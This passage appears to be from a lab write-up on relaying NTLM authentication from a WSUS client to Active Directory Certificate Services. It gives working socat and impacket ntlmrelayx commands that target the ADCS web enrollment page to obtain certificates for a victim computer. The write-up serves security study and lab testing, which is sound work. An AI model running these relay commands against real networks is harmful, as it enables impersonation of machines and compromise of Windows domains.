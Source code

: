 - Use of socat 

```bash
~ sudo apt install socat
~ sudo socat TCP-LISTEN:8530,fork TCP:80
```
So we are ready to relay all incoming traffing to our HTTP 80 port to the ADCS web enrollment HTTP server. There comes the use of ntlmrelayx to perform the relay. 

>[!IMPORTANT]
>Make sure to use ExtAndroidDev pull [request](https://github.com/fortra/impacket/pull/1101/commits/81afc66904068e33c866bc9d005262c9ce69bad6) or [Dirkjann's httpattack.py version](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/httpattack.py) . As Dirk-jan explained it in his [blog post](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)  servers/computers are not supposed to request certificates so the Web enrollment page gives them back the error ''No certificate templates could be found. You do not have permission to request a certificate from this CA, or an error occurred while accessing the Active Directory.'' There is how we proceeded in our lab to make the relay work:

```bash
python3 -m venv env
source env/bin/activate
git clone https://github.com/SecureAuthCorp/impacket ./impacket
cd impacket
git fetch origin pull/1101/head:ntlmrelayx-adcs-attack
git checkout ntlmrelayx-adcs-attack
python3 setup.py install
cd examples
python3 ntlmrelayx.py -t http://192.168.56.105/certsrv/certfnsh.asp -smb2support --adcs
```
We can wait for a windows update client to request wsus server, or if we have access to compromise host, we search for updates. Here is CURSE-COMP victime computer looking for updates:

![Windows client looking for updates](../assets/img/windows_client_looks_for_updates.png)
